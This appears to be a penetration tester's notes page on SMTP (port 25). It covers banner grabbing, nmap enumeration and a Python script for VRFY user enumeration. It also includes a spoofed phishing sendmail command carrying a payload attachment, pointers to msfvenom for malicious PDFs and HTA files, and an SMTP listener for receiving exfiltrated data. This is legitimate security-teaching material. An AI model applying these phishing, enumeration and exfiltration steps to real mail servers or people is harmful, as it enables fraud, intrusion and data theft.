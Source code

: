 # SMTP - Port 25

Simple Mail Transfer Protocol. 

Does exactly what it says on the tin, allows for a nice simple method of sending an email. 

SMTP is what we use to `send` email, however it's not the best for receiving so typically POP3 and IMAP are what we use to `receive` emails. It's not that it can't do it, it's just not particularly good at it so people tend to use one of the other protocols to receive mail.

[What is SMTP](https://whatis.techtarget.com/definition/SMTP-Simple-Mail-Transfer-Protocol)



## Fingerprinting

Basic Banner Grab:

```bash
nc -nv 10.10.10.10 25
```

Connecting to SMTPS:

```bash
openssl s_client -crlf -connect smtp.mailgun.org:465 #SSL/TLS without starttls command
openssl s_client -starttls smtp -crlf -connect smtp.mailgun.org:587
```

Looking up Mail Exchanges for a domain:

```bash
dig +short mx google.com
```

Basic Enumeration:

```bash
nmap -p25 --script smtp-commands 10.10.10.10
```

## Command Enumeration

SMTP services respond to a few different commands that can be used to enumerate users on the box, it really depends on the version and the configuration what it allows for:

- `RCPT TO`
- `VRFY`
- `EXPN`

## User Enumeration Using VRFY

```python
#!/usr/bin/python

import socket 
import sys

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

ip = sys.argv[1]

connect = s.connect((ip,25))
banner = s.recv(1024)
print banner

with open("user_list.txt") as payloads:
        for p in payloads:
                s.send("VRFY " + p.rstrip() + '\r\n')
                result = s.recv(1024)
                print result

s.close()
```

## Sending an Email (Phishing)

```bash
sendmail -t itdept@victim.com -f techsupport@bestcomputers.com -s 192.168.8.131 -u Important Upgrade Instructions -a /tmp/BestComputers-UpgradeInstructions.pdf
```

Hopefully someone reads it and our payload gets triggered. 

We can use `msfvenom` to generate things like HTA files and malicious PDFs. 

## Data Exfiltration

If you can send data to an SMTP server, you can create a SMTP server to receive and process the incoming data with python (hint: it's not a standard text-format):

```bash
sudo python -m smtpd -n -c DebuggingServer :25
```

## Further Reading

[Pentesting SMTP](https://book.hacktricks.xyz/pentesting/pentesting-smtp) 

Lots more stuff about spoofing headers and other tricks that will come in handy.

[Exfiltration via SMTP](https://book.hacktricks.xyz/exfiltration#smtp)


